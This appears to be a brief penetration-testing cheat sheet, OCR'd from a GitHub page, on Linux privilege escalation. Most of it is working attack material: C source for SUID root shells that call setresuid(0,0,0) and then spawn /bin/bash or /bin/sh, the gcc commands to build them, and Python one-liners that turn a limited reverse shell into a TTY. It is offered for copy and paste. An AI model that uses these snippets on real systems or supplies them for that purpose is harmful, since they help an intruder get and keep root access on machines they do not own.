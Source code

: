 

# SUID Binary
=============
# Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.
# below are some quick copy and pate examples for various shells:

# SUID C Shell for /bin/bash
============================
int main(void){
       setresuid(0, 0, 0);
       system("/bin/bash");
}       

# SUID C Shell for /bin/sh
==========================
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}       

# Building the SUID Shell binary
gcc -o suid suid.c  

# For 32 bit:
gcc -m32 -o suid suid.c  



# TTY Shells
============
# Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like su from reverse shells.

# Python TTY Shell Trick
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
